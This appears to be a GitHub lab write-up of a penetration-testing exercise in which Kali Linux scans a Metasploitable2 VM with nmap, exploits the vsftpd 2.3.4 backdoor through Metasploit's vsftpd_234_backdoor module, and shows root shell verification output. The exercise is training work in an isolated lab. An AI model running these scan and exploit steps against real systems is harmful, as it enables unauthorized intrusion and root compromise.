


# Kali Linux vs Metasploitable Attack Simulation

## Lab Objective
The objective of this lab was to simulate a real-world attack scenario in a controlled virtual environment.

This lab demonstrates a complete attack chain from reconnaissance to exploitation, showing how vulnerable services can be identified and leveraged to gain unauthorized access.

The exercise included reconnaissance, service enumeration, and exploitation of a vulnerable service, reflecting a fundamental penetration testing workflow.

---

## Lab Environment

### Attacker Machine
- Kali Linux

### Target Machine
- Metasploitable2

### Network Configuration
- VirtualBox Internal Network

### Network Topology
- Kali Linux (Attacker) → 192.168.100.20  
- Metasploitable2 (Target) → 192.168.100.10  

---

## Phase 1 – Reconnaissance

### Tool Used
- Nmap

### Command Executed
```
nmap -sV 192.168.100.10
```

### Purpose
Identify open ports and services running on the target system.

### Scan Result


---

## Phase 2 – Key Findings

The scan revealed several services running on the target machine:

- FTP – vsftpd 2.3.4  
- SSH – OpenSSH  
- HTTP – Apache web server  

The FTP service version is known to contain a backdoor vulnerability.

---

## Phase 3 – Exploitation

### Tool Used
- Metasploit Framework

### Exploit Module
```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.100.10
run
```

The exploit successfully triggered the backdoor vulnerability in vsftpd 2.3.4, opening a remote shell on the target machine.

---

## Exploit Result

### Root Shell
After exploitation, a command shell session was opened and the attacker gained root privileges on the vulnerable system.

### Verification Commands
```
whoami
root

id
uid=0(root) gid=0(root)
```



---

## Skills Demonstrated
- Network reconnaissance  
- Service enumeration  
- Vulnerability identification  
- Basic exploitation  
- Security documentation  

---

## Tools Used
- Kali Linux  
- Metasploitable2  
- Nmap  
- Metasploit Framework  
- VirtualBox  

---

## Attack Flow
1. Attacker machine (Kali Linux) scanned the target using Nmap  
2. Service enumeration revealed an outdated FTP service  
3. The vsftpd 2.3.4 backdoor vulnerability was identified  
4. Metasploit was used to exploit the vulnerable service  
5. Remote command execution was achieved on the target machine  
